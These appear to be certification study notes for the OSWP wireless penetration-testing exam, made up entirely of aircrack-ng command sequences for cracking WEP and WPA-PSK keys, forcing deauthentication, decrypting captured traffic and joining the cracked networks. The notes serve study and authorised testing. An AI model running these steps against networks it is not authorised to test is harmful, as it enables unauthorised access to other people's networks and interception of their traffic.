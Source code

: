 # OSWP

Cracking WEP (p74)
    airmon-ng start wlan0
    airodump-ng mon0
    airodump-ng -c [channel] --bssid [target MAC] -w wepcrack mon0
    aireplay-ng -3 -b [target MAC] -h [your MAC] mon0
    aircrack-ng wepcrack-01.cap

Cracking WPA-PSK Weak Passphrase (p85)
    airmon-ng start wlan0
    airodump-ng mon0
    airodump-ng --bssid [target MAC] -c [channel] -w wpacrack mon0
    aireplay-ng --deauth 10 -a [target MAC] -c [client MAC] mon0
    aircrack-ng -w /path/to/wordlist.txt -b [target MAC] wpacrack-01.cap
    
Decrypting WEP and WPA Packets (p94)
    # WEP
    airdecap-ng -w [WEP key] wepcrack-01.cap
    # WPA
    airdecap-ng -e [ESSID] -p [passphrase] wpacrack-01.cap

Connecting to WEP Network (p96)
    ifconfig wlan0 down
    iwconfig wlan0 essid [network name]
    iwconfig wlan0 key s:[WEP key]
    ifconfig wlan0 up
    dhclient wlan0

Connecting to WPA Network (p97)
    wpa_passphrase [network name] [passphrase] > wpa.conf
    wpa_supplicant -B -Dwext -i wlan0 -c wpa.conf
    dhclient wlan0

